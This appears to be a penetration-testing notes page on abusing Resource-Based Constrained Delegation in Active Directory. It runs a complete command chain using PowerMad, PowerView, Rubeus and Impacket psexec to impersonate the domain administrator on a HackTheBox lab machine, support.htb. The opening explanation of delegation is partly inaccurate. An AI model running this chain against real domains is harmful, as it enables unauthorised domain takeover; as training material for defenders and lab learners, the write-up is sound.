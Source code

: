 
## Resource-Based Constraint Delegation

Resource-Based Constraint Delegation is a feature in Active Directory that allows administrators to specify which users or groups are allowed to delegate their permissions to other users or groups. This can be useful in situations where a user needs to perform a task that requires permissions that they do not have, but a user with the necessary permissions trusts them to perform the task on their behalf. For example, an administrator may allow a group of IT technicians to delegate their permissions to reset user passwords, as long as the request is made by a member of the HR department.

## Configuring RBCD

**RBCD** is configured by setting the `**msDS-AllowedToActOnBehalfOfOtherIdentity**` attribute. This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.

To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as `GenericAll`, `GenericWrite`, and `WriteDACL`. This access is necessary to modify the Resource-Based Constrained Delegation (RBCD) settings on the targeted resource.

## RBCD Attack Requirements and Flow

## Attack Requirements

- Obtain access to an account with Write permissions to modify a computer object’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, granting permissions to the compromised account.
- Control an object with a Service Principal Name (SPN). This could involve using an existing computer where we hold administrator privileges or creating a fake computer object if necessary.

## Attack Steps

The steps below summarize the RBCD attack to understand the attack flow:

1. The attacker gains access to a domain user account that can add computers to the domain. By default, domain users are part of the Authenticated Users group, allowing them to add up to 10 computers to the domain.

**_Note:_** _Remember, it is not always the case; sometimes administrators will set the_ `_ms-ds-machineaccountquota_` _attribute to 0 to prevent these attacks.)_

2. The compromised user must have Write privileges over the targeted computer. Required permissions include `GenericAll`, `GenericWrite`, or `WriteDACL`.

3. The attacker modifies the target computer’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to specify a service account they control.

4. The attacker requests a service ticket to impersonate a high-privileged user, such as a domain admin, to access the target computer.

5. Using the issued ticket, the attacker gains access to the target computer.
## Tools Required

#### 1. [PowerMad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)
#### 2. [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
#### 3. [Powershell AD module](https://github.com/samratashok/ADModule.git)
#### 4. [Impacket Tools](https://github.com/fortra/impacket)
#### 5. [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

#### S4UProxy

S4UProxy is a feature in Active Directory that allows a user to obtain a service ticket for a different user without knowing their password. This feature is typically used in situations where a service account needs to access a resource on behalf of a user, but the service account is not trusted to know the user's password. S4USelf works in a very similar way, allowing a user to obtain a ticket for itself. In a S4UProxy attack, an attacker exploits this feature to obtain a service ticket for a high-privileged account, such as an administrator account, without knowing the password for the account. The attacker can then use the service ticket to access resources and perform actions that are normally restricted to the high-privileged account.

## Practical Exploitation

##### Upload the FIles to the server using Evil-WinRM
```Powershell
upload /path-to-the-file/{Files}.ps1
```

##### Import all the Modules
```Powershell
. .\Powermad.ps1
. .\PowerView.ps1
Import-Module .\Microsoft.ActiveDirectory.Management.dll
. .\ActiveDirectory.psd1
```

Next, we check the value of the `ms-ds-machineaccountquota` attribute with the Active Directory `Get-ADDomain` command to see if our domain user can add machines to the domain.

##### Get the machine quota
```Powershell
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

![[RBCD-1.webp]]
Also, we check the `msds-allowedtoactonbehalfofotheridentity` attribute with the PowerView`Get-DomainComputer` command to see how many services are listed on the computer.
```cmd
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![[RBCD-2.webp]]

### Chaining it together

First, we leverage [[#1. [PowerMad](https //github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) |PowerMad]] to create a new machine account using our `GenericAll` privileges on the domain.

```Powershell
New-MachineAccount -MachineAccount PC1 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
verify that it is added correctly to the domain by running the `Get-DomainComputer` command.
```Powershell
Get-DomainComputer PC1
```

Now we set the `PrincipalsAllowedToDelegateToAccount` to allow for `SERVICEA` to impersonate any user against our target `DC`

```
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount SERVICEA$
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```

Next, we use `Rubeus` to get a hash of our password. In a second step, we perform a the actual `S4U` attack, which can be done with Rubeus as well. Please note that this step abuses intended functionality, and requires the above mentioned misconfigurations to be present. In this case we have `GenericAll` or any other write privileges on the target machine, which allowed us to misconfigure the rest ourselves.

```
.\Rubeus.exe hash /password:123456 /user:SERVICEA$ /domain:support.htb

.\rubeus.exe s4u /user:SERVICEA$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /domain:support.htb  /ptt
```

This is the basic attack, but more work is needed to login, as the ticket is injected into memory by `Rubeus` and usually intended to use immediately within a multi-machine environment. Grab the ticket and format it, then convert it to a usable ticket for impacket.

```
echo <ticket> | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

Now we can use impacket psexec to login:

```
psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -target-ip 10.10.11.174
